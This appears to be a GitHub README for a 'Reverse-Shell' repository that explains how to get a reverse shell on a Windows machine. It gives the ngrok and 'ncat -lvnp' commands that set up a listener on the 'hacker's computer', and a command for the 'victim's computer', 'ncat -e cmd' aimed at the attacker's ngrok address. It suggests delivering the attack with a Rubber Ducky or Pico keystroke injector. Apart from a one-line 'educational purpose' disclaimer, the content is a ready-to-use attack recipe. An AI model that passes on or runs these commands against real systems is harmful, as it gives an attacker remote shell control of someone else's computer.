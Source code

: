 # Reverse-Shell
This is a guide on how to perform a reverse shell on Windows.

> This repository is ONLY for educational purpose

❓ **How Reverse Shell Works**
- In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target      system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s    computer listens for incoming connections on a specified port.

> ⚠ ATTENTION ⚠

- This repository does NOT explain how to set a [Raspberry Pi Pico](https://www.amazon.it/IBest-Pico-Microcontroller-Board-Pre-Soldered/dp/B0922F9VYT/ref=sr_1_1_sspa?__mk_it_IT=%C3%85M%C3%85%C5%BD%C3%95%C3%91&crid=23WS773UDH0WZ&keywords=rasberry%2Bpi%2Bpico&qid=1664023352&qu=eyJxc2MiOiIzLjcyIiwicXNhIjoiMy4yMiIsInFzcCI6IjIuNjEifQ%3D%3D&sprefix=rasberry%2Bpi%2Bpico%2Caps%2C105&sr=8-1-spons&spLa=ZW5jcnlwdGVkUXVhbGlmaWVyPUExMjdRSFlKUEc3TDk0JmVuY3J5cHRlZElkPUEwOTgzNzkzM05VN0s2QTFDV05VVyZlbmNyeXB0ZWRBZElkPUEwOTE1NjQ1MkQ3UFIwM01QU1VHSyZ3aWRnZXROYW1lPXNwX2F0ZiZhY3Rpb249Y2xpY2tSZWRpcmVjdCZkb05vdExvZ0NsaWNrPXRydWU&th=1, "Buy a Raspberry Pi Pico") or a [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky, "Buy a USB Rubber Ducky").

  - For set a raspberry pi pico or a USB Rubber Ducky: 
    - https://www.youtube.com/watch?v=e_f9p-_JWZw&t=949s&ab_channel=NetworkChuck
    - https://github.com/dbisu/pico-ducky

🧰 **Hacker's Computer**
 1. Download [Ngrok](https://ngrok.com/)
 2. Run ngrok on port `9999` 
 ```
    ngrok tcp 9999
 ```
 3. Create a listener with [Ncat](https://nmap.org/download.html) on another cmd
 ```
    ncat -lvnp 9999
 ```
 🎯 **Victim's Computer**
 ```
 ncat -e cmd <ngrok IP> <ngrok PORT>
 ```
  
 > ⚠ ATTENTION ⚠
 
 DIFFERENT NETWORK => Ngrok

SAME NETWOTK - DIFFERENT DEVICES => IPv4 + 9999

SAME DEVICE => 127.0.0.1 + 9999
